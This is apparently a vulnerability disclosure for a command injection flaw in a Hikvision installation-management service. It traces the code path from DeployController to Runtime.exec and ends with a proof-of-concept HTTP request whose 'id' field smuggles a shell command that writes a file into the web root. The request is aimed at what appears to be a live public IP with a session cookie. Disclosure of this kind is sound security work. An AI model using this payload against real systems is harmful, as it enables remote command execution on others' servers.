 Cause of the vulnerability: Improper splicing of the oneParameter parameter in the file center/WEB-INF/lib/hik-icd-external-tool-1.3.0-SNAPSHOT/com/hikvision/externaltool/agent/base/CommandConvertUtils.java causes command execution.
![image](https://github.com/night-0p/anh/assets/54882616/8ba930b7-c2ed-468f-a5d5-459899eb857f)


The following is the analysis:

In the `center/WEB-INF/lib/hik-icd-installmanager-1.3.0-SNAPSHOT/com/hikvision/installmanager/controller/deployment/DeployController.java` method `getDetection`, the parameters `type` and `operate` are accepted respectively, and the value of the parameter `type` is Must be environment.
Then execute, `detectResponse = this.installDetectService.getSystemDetect(detectionRequest, operate);`  
![image](https://github.com/night-0p/anh/assets/54882616/ea03f6d7-9a2e-4b65-b022-01ba4ce99c44)
![image](https://github.com/night-0p/anh/assets/54882616/0f37416f-4d9c-46cb-af38-1740150da746)
`installDetectService#getSystemDetect `  
![image](https://github.com/night-0p/anh/assets/54882616/6a0db0a9-fd37-47b9-89f4-8fe60e7dbeba)
Obtain the array of machines in line 727, then traverse the array of machines, obtain the value of the id key through `String agentNo = machineInstallation.getId()` and assign it to agentNo. In line 87, execute `this.rMachineSelector.findMachineInformation(agentNo)`
![image](https://github.com/night-0p/anh/assets/54882616/f12dd6ac-e46a-4c33-b849-271b898c1c31)
Afterwards, `ReturnSystemDto returnSystemDto = this.agentTaskService.findMachineBasicInformation(agentNo)` is executed, and the convertExecuteCommand method is called in the findMachineBasicInformation method.
![image](https://github.com/night-0p/anh/assets/54882616/c992cd70-8bc7-4a77-8c28-0e6a81357c4b)
In the convertExecuteCommand method of the CommandConvertUtils class, line 56, oneParameter performs splicing commands without filtering. In line 63, the value of cmdArray is returned
![image](https://github.com/night-0p/anh/assets/54882616/1c723f64-f498-4223-a368-fa0a8c7db014)
`Execute CommandExecuteUtils.executeCommand(cmdArray)`; in line 110
![image](https://github.com/night-0p/anh/assets/54882616/8946b725-6128-491f-8f5f-3ef2115dcf94)
Final execution `process = Runtime.getRuntime().exec(cmdArray);`
![image](https://github.com/night-0p/anh/assets/54882616/bc4bf312-23c9-4fb9-a029-565eeed3038d)

poc:
```
POST /center/api/installation/detection HTTP/1.1
Host: 211.142.73.227:1443
Cookie: JSESSIONID=727F097DC9E5183149DB9F8FF4564D7E
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 16_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.47(0x18002f28) NetType/WIFI Language/zh_CN
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 3663

{"type":"environment",
"operate":"",
"machines":{"id":  "$(echo 'dGVzdA==' | base64 --decode >/opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/test.txt)"}}
```
Execute POC
![image](https://github.com/night-0p/anh/assets/54882616/35c9a116-a0b3-4b14-8ffe-e559a1bb1d17)
Verify results
![image](https://github.com/night-0p/anh/assets/54882616/72da401d-dd89-4ddd-9c8e-462033255979)
